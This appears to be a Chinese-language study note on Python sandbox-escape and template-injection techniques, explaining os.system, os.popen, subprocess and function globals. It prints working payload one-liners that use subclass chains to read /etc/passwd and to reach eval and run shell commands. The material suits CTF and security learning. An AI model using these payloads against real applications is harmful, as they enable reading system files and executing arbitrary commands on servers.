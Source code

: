 **读取密码**

```bash
''.__class__.__mro__[-1].__subclasses__()[40]("/etc/passwd").read()
```



**命令执行:**

**1.os.system()**

```bash
用法：os.system(command)
但是用这个无法回显
```

**2.os.popen()**

我们可以用这个

用法：`os.popen(command[,mode[,bufsize]])`
说明：`mode – 模式权限可以是 ‘r’(默认) 或 ‘w’`。
popen方法通过p.read()获取终端输出，而且popen需要关闭close().当执行成功时，close()不返回任何值，失败时，close()返回系统返回值（失败返回1），可见它获取返回值的方式和os.system不同。

还需要了解一个魔法函数：`globals`，该属性是函数特有的属性,记录当前文件全局变量的值,如果某个文件调用了os、sys等库,但我们只能访问该文件某个函数或者某个对象，那么我们就可以利用globals属性访问全局的变量。该属性保存的是函数全局变量的字典引用

```bash
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls ").read()' )
```



**3.subprocess**

如果os被过滤了可以用subprocess

```python
1.subprocess.check_call()
Python 2.5中新增的函数。 执行指定的命令，如果执行成功则返回状态码，否则抛出异常。其功能等价于subprocess.run(…, check=True)。

2.subprocess.check_output()
Python 2.7中新增的的函数。执行指定的命令，如果执行状态码为0则返回命令执行结果，否则抛出异常。

3.subprocess.Popen(“command”)
说明：class subprocess.Popen(args, bufsize=0, executable=None, stdin=None, stdout=None, stderr=None, preexec_fn=None, close_fds=False, shell=False, cwd=None, env=None, universal_newlines=False, startupinfo=None, creationflags=0)
Popen非常强大，支持多种参数和模式，通过其构造函数可以看到支持很多参数。但Popen函数存在缺陷在于，它是一个阻塞的方法，如果运行cmd命令时产生内容非常多，函数就容易阻塞。另一点，Popen方法也不会打印出cmd的执行信息。
```





__**init方法**

`__init__`方法用于将对象实例化，在这个函数下我们可以通过`funcglobals`（或者`__globals`）看该模块下有哪些globals函数（注意返回的是字典），而linecache可用于读取任意一个文件的某一行，而这个函数引用了os模块。
